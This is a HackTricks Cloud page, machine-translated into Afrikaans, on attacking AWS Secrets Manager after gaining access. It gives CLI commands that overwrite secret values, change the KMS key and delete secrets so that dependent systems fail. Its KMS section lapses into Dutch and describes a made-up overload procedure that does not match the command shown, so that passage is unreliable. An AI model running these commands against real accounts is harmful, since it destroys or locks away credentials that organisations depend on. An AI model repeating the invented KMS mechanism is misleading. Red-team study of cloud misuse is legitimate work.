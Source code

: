 # AWS - Geheimebestuurder Na-uitbuiting

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

## Geheimebestuurder

Vir meer inligting, kyk:

{% content-ref url="../../aws-security/aws-services/aws-secrets-manager-enum.md" %}
[aws-secrets-manager-enum.md](../../aws-security/aws-services/aws-secrets-manager-enum.md)
{% endcontent-ref %}

### Lees Geheime

Die **geheime self is sensitiewe inligting**, [kyk na die privesc-bladsy](../../aws-security/aws-privilege-escalation/aws-secrets-manager-privesc.md) om te leer hoe om dit te lees.

### DoS Verander Geheime Waarde

Deur die waarde van die geheim te verander, kan jy **DoS al die stelsels wat afhanklik is van daardie waarde.**

{% hint style="warning" %}
Let daarop dat vorige waardes ook gestoor word, so dit is maklik om net terug te gaan na die vorige waarde.
{% endhint %}
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Verander KMS-sleutel

Om een Denial of Service (DoS) aanval uit te voeren door de KMS-sleutel te wijzigen, volg je de onderstaande stappen:

1. Identificeer de AWS Secrets Manager die de KMS-sleutel gebruikt die je wilt aanvallen.
2. Verkrijg de juiste machtigingen om de Secrets Manager te beheren.
3. Maak een nieuwe KMS-sleutel aan en noteer de ARN (Amazon Resource Name) ervan.
4. Update de Secrets Manager om de nieuwe KMS-sleutel te gebruiken.
5. Herhaal stap 3 en 4 meerdere keren om een groot aantal KMS-sleutels te maken en de Secrets Manager steeds bij te werken.
6. Hierdoor zal de Secrets Manager overbelast raken en mogelijk niet meer functioneren, wat resulteert in een DoS-aanval.

Houd er rekening mee dat het uitvoeren van een DoS-aanval illegaal is en ernstige gevolgen kan hebben. Deze informatie is alleen bedoeld voor educatieve doeleinden en om bewustzijn te creëren over mogelijke beveiligingsrisico's.
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Verwydering van Geheim

Die minimum aantal dae om 'n geheim te verwyder is 7.
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslagplekke.

</details>
